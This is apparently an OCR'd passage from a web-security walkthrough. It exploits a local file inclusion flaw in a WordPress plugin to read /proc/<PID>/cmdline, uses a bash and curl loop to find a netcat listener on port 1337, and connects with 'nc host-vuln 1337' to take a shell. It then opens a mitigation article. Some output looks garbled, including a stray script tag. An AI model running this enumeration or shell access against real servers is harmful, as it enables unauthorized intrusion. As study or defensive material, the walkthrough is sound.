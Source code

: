 **Example Output:**

```plaintext
PID 1 : /sbin/init auto automatic-ubiquity noprompt
PID 620 : /bin/sh -c "nc -nvpl 1337"
PID 850 : /usr/sbin/atd -f
```

In PID 620, we discovered a `netcat` process listening on port 1337, indicating a potential backdoor or a configured reverse shell on the server.

## Scanning and Connecting with Netcat

If we already know that port 1337 might be open, we can confirm using a Bash script that finds the correct PID that is listening on this port:

```bash
i=0
while [[ $(curl -s "http://host-vuln/wp-content/plugins/vulnerable-LFI-plugin/file.php?url=/proc/$i/cmdline") != *"1337"* ]]; do
    ((i=i+1))
done
echo $i
```

Output:
```
620
```
By identifying the correct PID, we can directly access the `cmdline` of the process to get details about the command executed:

```bash
# URL Example to Access
http://host-vuln/wp-content/plugins/vulnerable-LFI-plugin/file.php?url=/proc/620/cmdline
```

Output:
```
 /cmdline/bin/sh/su user -c "cd /home/user;nc -nvpl 1337"; done <script>window.close()</script>
```

If confirmed, we could then attempt a connection via `netcat` to establish an interactive session with the system's shell, taking control over the server.

```bash
nc host-vuln 1337
```

# Mitigating Directory Traversal and PID Vulnerabilities in WordPress Plugins

In the landscape of web security, vulnerabilities such as Directory Traversal and PID (Process ID) disclosure pose significant threats, especially in widely-used platforms like WordPress. These vulnerabilities can allow attackers to gain unauthorized access to system files and manipulate processes running on the server. This article discusses practical steps to mitigate these vulnerabilities in WordPress plugins.
